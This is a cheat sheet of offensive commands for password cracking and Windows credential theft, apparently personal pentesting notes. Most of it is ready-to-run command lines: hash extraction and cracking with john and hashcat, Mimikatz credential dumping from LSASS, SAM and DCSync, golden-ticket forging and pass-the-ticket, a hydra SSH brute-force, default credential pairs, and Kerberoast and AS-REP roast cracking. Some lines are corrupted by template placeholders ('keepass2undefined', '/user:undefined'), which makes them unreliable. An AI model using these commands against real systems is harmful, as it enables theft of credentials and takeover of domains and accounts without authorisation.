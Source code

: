 # Password cracking:

#### Keepass Database

- Hash de la base de datos 

```sh
keepass2john Database.kdbx > keepass.hash
```

- Eliminar *Database:*
- Cracking con Hashcat 

```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```



#### SSH Private Key Passphrase

```
ssh2john id_rsa > ssh.hash
```

```
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
```

![[Pasted image 20250310135421.png]]

```
 john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### Zip cracking

```
 fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' chall.zip
```

```
zip2john file.zip > zip.john
john zip.john
```


## Mimikatz

^ff8d26

```
privilege::debug
```

```
token::elevate
```

```
lsadump::dcsync /user:dominio\usuario
```

```
sekurlsa::logonpasswords 
```

```
lsadump::sam 
```

```
lsadump::lsa 
```

```
lsadump::cache 
```

```
lsadump::secrets
```

```
kerberos::purge
```


```
misc::cmd
```

> [!example] [mimikatz](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)
> 
> ```
> privilege::debug
> token::elevate
> lsadump::sam
> lsadump::lsa
> lsadump::secrets
> sekurlsa::logonpasswords
> lsadump::cache
> ```
> 
> 
> ```
> .\mimikatz "privilege::debug" "token::elevate"  "lsadump::sam " exit
> sekurlsa::minidump /users/admin/Desktop/lsass.DMP
> sekurlsa::LogonPasswords
> ```

> [!example] Generate TGT with NTLM
> 
> ```
> kerberos::golden /domain:<% tp.frontmatter["DOMAIN"] %>/sid:"SID" /rc4:"KRBTGT_NTLM_HASH" /user:undefined
> ```

> [!example] Inject TGT with Mimikatz
> 
> ```
> kerberos::ptt KIRBI_FILE.file
> ```


Default credentials : 

- `admin:admin admin:password root:root root:toor`


```
 john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt
```

```
hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10
```

## Hashcat

> [!example] Asrep Roast
> 
> ```
> 
> sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
> hashcat -m 18200-a 0asrep.txt passwords.txt --outfile asrepcrack.txt --forcehashcat
> ```

> [!example] Kerberoast 
> 
> ```
> sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r demo_rule2.rule --force> 
> ```

> [!example] keypass
> 
> ```
> keepass2undefined Database.kdbx > keepass.hash
> hashcat --help | grep -i "KeePass"
> hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
> ```

> [!example] id_rsa
> ```
> 
> ssh2undefined id_rsa > ssh.hash
> hashcat -h | grep -i "ssh"
> hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
> hashcat -m 22921 ssh.hash /usr/share/wordlists/rockyou.txt
> ```

> [!example] ntlm
> 
> ```
> hashcat --help | grep -i "ntlm"
> hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
> ```

> [!example] ntlmv2
> 
> ```
> hashcat --help | grep -i "ntlm"
> hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
> ```


### Port Kill

sudo fuser -k 443/tcp